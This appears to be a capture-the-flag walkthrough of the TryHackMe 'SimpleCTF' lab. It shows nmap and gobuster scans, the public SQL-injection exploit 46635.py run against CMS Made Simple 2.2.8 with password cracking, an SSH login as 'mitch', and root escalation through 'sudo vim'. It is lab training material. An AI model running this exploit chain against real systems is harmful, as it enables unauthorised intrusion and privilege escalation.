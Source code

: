 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


---
#### nmap scan:
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan:
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`

```
# Found directory:
10.10.90.196/simple
# Navigate to directory and found: " This site is powered by CMS Made Simple version 2.2.8 "
```



#### search for exploits involving that CMS:

`searchsploit cms made simple`

```
CMS Made Simple < 2.2.10 - SQL Injection                                                               | php/webapps/46635.py
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target:
`python2 exploit.py -u http://10.10.90.196/simple --crack -w /usr/share/wordlists/rockyou.txt`

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

#### login using credentials we found
`ssh mitch@10.10.90.196 -p 2222`


#### After loggin in, cat user.txt

```
cat user.txt
```

#### Check the user sudo rights
```
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
#### Esecelate to root user
```
sudo vim -c '!sh'
cd /root
cat root.txt
```

